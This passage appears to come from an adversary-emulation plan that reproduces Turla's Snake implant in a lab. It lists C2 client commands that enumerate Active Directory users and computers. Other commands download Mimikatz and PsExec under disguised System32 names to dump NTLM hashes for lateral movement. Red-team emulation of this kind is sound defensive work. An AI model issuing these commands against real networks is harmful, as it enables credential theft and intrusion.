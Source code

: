 * Wait 1 minute before tasking Snake to discover domain users. Ensure
`Zilvinas` and `ZilvinasAdmin` appear in the output.
```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 2, "command": "$ProgressPreference = \"SilentlyContinue\"; Import-Module ActiveDirectory; Get-ADUser -Filter {LastLogonDate -ne 0} -Properties * | Select Name,SamAccountName"}'
```

* Finally, wait 1 minute before tasking Snake to obtain a list of domain computers and some of their information (IP addresses, DNS names, and description).
```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 2, "command": "$ProgressPreference = \"SilentlyContinue\"; Import-Module ActiveDirectory; Get-ADComputer -Filter * -Properties * | Select Name,DnsName,IPv4Address,Description"}'
```
:heavy_exclamation_mark: Ensure that `Zilvinas' Workstation` appears in the `Description` field for `uosis`

### :moyai: Source Code

* [Snake Usermodule DLL](UserModule_README.md)
  * [Task download](comms_http.cpp#L237)
  * [Powershell execution](execute.cpp#L372)

### :microscope: Cited Intelligence

* TBD

## Step 16 - Preparation for Lateral Movement to Admin Workstation

:microphone: `Voice Track:`

Step 16 emulates Turla performing credential dumping on the file server with the goal of moving laterally to a workstation owned by a Domain Admin.

Snake downloads Mimikatz to the file server and extracts all NTLM hashes on the target. The command output is sent directly to the C2 server.

---

### :biohazard: Procedures

* From the Kali C2 server lower terminal window, task Snake to download Mimikatz to the file server:
```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 4, "file": "mimikatz.exe", "dest": "C:\\Windows\\System32\\loadperf.exe"}'
```

* Wait 1 minute and then instruct Snake to download PsExec to the file server:

```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 4, "file": "PsExec.exe", "dest": "C:\\Windows\\System32\\fs_mgr.exe"}'
```
